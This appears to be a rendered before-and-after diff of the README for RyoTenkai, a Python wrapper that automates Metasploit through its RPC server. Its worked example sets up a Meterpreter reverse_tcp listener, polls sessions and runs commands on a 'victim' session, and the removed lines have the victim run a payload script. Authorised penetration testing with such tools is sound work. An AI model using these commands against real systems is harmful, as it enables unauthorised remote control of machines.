

Before and after one commit to MrSud0/RyoTenkai, a Markdown page: README.md, 2 parts joined by grey strips. Shown: that part at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -1,17 +1,17 @@
-
-
 # RyoTenkai: Metasploit RPC Automation Tool
 
-This Python tool is designed to automate tasks within the Metasploit Framework using the `pymetasploit3` library, allowing for interaction with the Metasploit RPC server. The tool provides functionalities such as running exploits, polling jobs and sessions, interacting with open sessions, and generating payloads using `msfvenom`.
+**RyoTenkai** is a Python tool designed to automate tasks within the Metasploit Framework using the `pymetasploit3` library. It facilitates interaction with the Metasploit RPC server, offering functionalities such as running exploits, polling jobs and sessions, interacting with open sessions, and generating payloads using `msfvenom`.
+
+All outputs are provided in **structured JSON format**, which can be easily consumed by other tools like Ansible or any automation systems.
 
 ## Features
 
-- **Start Metasploit RPC server**: Start the RPC server with user-specified credentials and port.
-- **Run any Metasploit module**: Execute Metasploit modules and retrieve their output.
-- **Poll active jobs**: View currently active jobs in the Metasploit instance.
-- **Poll active sessions**: View currently active sessions.
-- **Access a session and run a command**: Interact with an active session and run commands within it.
-- **Generate payloads using msfvenom**: Create payloads in various formats (e.g., ELF, EXE) for use with Metasploit modules.
+- **Start Metasploit RPC server**: Start the RPC server with user-specified credentials and port, and receive the response as JSON.
+- **Run any Metasploit module**: Execute Metasploit modules with specified options and get both raw and filtered output in JSON format.
+- **Poll active jobs**: View currently active jobs, returned as JSON.
+- **Poll active sessions**: View currently active sessions as structured JSON output.
+- **Access a session and run a command**: Interact with an active session, run a command, and retrieve the result as JSON.
+- **Generate payloads using msfvenom**: Create payloads in various formats (e.g., ELF, EXE) for use with Metasploit modules, with JSON output indicating success or failure.
 
 ## Requirements
 
@@ -130,43 +177,55 @@ The victim machine will run this payload to initiate a reverse connection.
 
 ```bash
-python ryotenkai.py run_module multi/handler --option 'PAYLOAD=linux/x64/meterpreter/reverse_tcp' --option 'LHOST=10.192.0.3' --option 'LPORT=12344' --msf-password msfrpc --rpc-port 55559 --rpc-server 10.192.0.3 --rpc-ssl
+python ryotenkai.py run_module multi/handler --option 'PAYLOAD=linux/x64/meterpreter/reverse_tcp' --option 'LHOST=10.192.0.3' --option 'LPORT=12344'
 ```
 
-This command sets up a listener using the `multi/handler` module, waiting for the reverse shell connection from the victim.
-
-#### 4. Poll Jobs to Confirm Listener is Active
+#### 4. Poll Jobs
 
 ```bash
-python ryotenkai.py get_jobs --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+python ryotenkai.py get_jobs
 ```
 
-This command checks the active jobs in Metasploit, confirming that the listener (handler) is running.
-
-#### 5. Victim Executes the Payload
-
-On the victim machine, the payload script generated in step 2 is executed:
+#### 5. Poll Sessions
 
 ```bash
-sh /tmp/payload.sh
+python ryotenkai.py get_sessions
 ```
 
-This triggers the reverse shell connection to the Metasploit listener.
-
-#### 6. Poll Sessions to Confirm a Session is Open
+#### 6. Run a Command on an Active Session
 
 ```bash
-python ryotenkai.py get_sessions --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+python ryotenkai.py run_command 1 ifconfig
 ```
 
-This command polls the active sessions in Metasploit, confirming that a Meterpreter session has been opened with the victim.
+## JSON Outputs
 
-#### 7. Run a Command in the Session
+All core functionalities return outputs in structured JSON format. This ensures easy integration with automation tools like Ansible.
 
-```bash
-python ryotenkai.py run_command 1 ifconfig --msf-password msfrpc --rpc-server 10.192.0.3 --rpc-port 55559 --rpc-ssl
+### Example JSON Output for Generating a Payload:
+
+```json
+{
+    "status": "success",
+    "message": "Payload saved to /tmp/payload.sh",
+    "details": {
+        "format": "elf",
+        "payload": "linux/x64/meterpreter/reverse_tcp",
+        "lhost": "10.192.0.3",
+        "lport": "12344",
+        "output_file": "/tmp/payload.sh"
+    }
+}
 ```
 
-This command accesses session ID `1` and runs the `ifconfig` command, retrieving the network interface details of the victim.
+### Example JSON Output for Running a Command in a Session:
+
+```json
+{
+    "session_id": "1",
+    "command": "ifconfig",
+    "result": "eth0      Link encap:Ethernet  HWaddr 00:50:56:aa:bb:cc"
+}
+```
 
 ## Logging
 
````
Also changed, not shown: other parts of README.md (+61 -14 lines).
